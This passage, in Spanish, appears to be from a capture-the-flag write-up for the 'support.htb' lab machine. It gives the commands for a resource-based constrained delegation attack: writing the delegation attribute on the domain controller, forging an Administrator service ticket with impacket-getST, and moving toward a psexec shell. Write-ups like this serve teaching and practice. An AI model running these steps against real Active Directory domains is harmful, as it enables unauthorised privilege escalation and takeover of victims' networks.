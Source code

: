 
Modificación del objeto AD de la computadora de destino

Aplicar los bytes del descriptor de seguridad a la `DC`máquina de destino:

```php
Get-DomainComputer DC | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

![20240305111803.png](20240305111803.png)

Podemos probar si el descriptor de seguridad asignado a la computadora `dc`en el `msds-allowedtoactonbehalfofotheridentity`atributo se refiere a la `fake01$`máquina:

```php
Get-DomainComputer ws01 -Properties 'msds-allowedtoactonbehalfofotheridentity'
```

![20240305111919.png](20240305111919.png)

### rbcd-attack

Luego de ejecutar todo lo necesario haremos uso de `impacket-getST` o [rbcd - attack](https://github.com/tothi/rbcd-attack)

Ejecutaremos `impacket-getST` con el nombre de la maquina que creamos anteriormente y el usuario que queremos `impersonte` 

```php
❯ impacket-getST -spn cifs/dc.support.htb -impersonate Administrator -dc-ip 10.10.11.174 support.htb/FAKE01$:123456
```

![20240305112057.png](20240305112057.png)

Luego debemos configurar la variable de entorno `KRB5CCNAME`

```php
❯ export KRB5CCNAME=Administrator.ccache
```

Para ejecutar `impacket-psexec` y asi podremos ingresar a la maquina victima sin proporcionar contraseña y siendo el usuario admistrator

